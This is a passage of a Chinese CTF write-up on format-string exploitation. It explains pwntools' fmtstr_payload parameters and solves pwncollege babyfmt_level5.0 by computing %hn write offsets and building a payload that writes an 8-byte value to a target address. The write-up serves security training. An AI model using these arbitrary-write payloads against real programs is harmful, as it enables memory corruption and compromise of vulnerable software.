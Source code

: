 systemAddress}；本题是将0804a048处改为0x2223322

第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；

第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。

fmtstr_payload函数返回的就是payload

### pwncollege babyfmt_level5.0
目标地址： 0x404100

要存进去的值： 0x5b92 4933 3e0d 5c39

通过爆破可以知道格式化字符串本身在17偏移处开始

```python
payload=b'%18$paa'+p64(0x404100)
```

先大致看一下要写入这么多数据要用到的格式化字符串有多长，要写入的数据是 8 位，用`%hn`每次写入两个字节比较好

> 用%hhn 每次写入一个字节一共要八个地址
>
> 用%n 每次需要的字符数量到了 0xffffffff 个转成十进制%*c 太大了（%lln 更是）
>

因为字符数只增不减，所以只能通过循环溢出获得比上一次写入的数据更小的数据

+ 0x5c39 = 23609
+ 0xffff - 0x5c39 + 0x3e0d = 0xe1d3 = 57811
+ 0x4933 - 0x3e0d = 0xb26 = 2854
+ 0x5b92 - 0x4933 = 0x125f = 4703

```python
payload=b'%23609c%**$hn%57812c%**$hn%2854c%**$hn%4703c%**$hnaaaaa'
payload+=p64(0x404100)+p64(0x404102)+p64(0x404104)+p64(0x404106)
```

提前准备好大于预计长度的对齐的长度,`**`处是对应的偏移

用长度相同的字符串通过不同的%*$p看最后的偏移是多少

```python
payload=b'%20$p%24$p%28$p%32$p%36$paaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
payload+=p64(0x404100)+p64(0x404102)+p64(0x404104)+p64(0x404106)
```

> 因为是连着的 4 个不同的地址，所以%*$p 可以相隔 3 个地址跳着来看，
>
> 这样范围更大，更容易找到地址
>

最后的 payload：

```python
payload=b'%23609c%24$hn%57812c%25$hn%2854c%26$hn%4703c%27$hnaaaaa'
payload+=p64(0x404100)+p64(0x404102)+p64(0x404104)+p64(0x404106)
```

注意：`printf`函数识别到`\x00`就会停止输出，所以 payload 当中地址应该放在格式符后防止截断
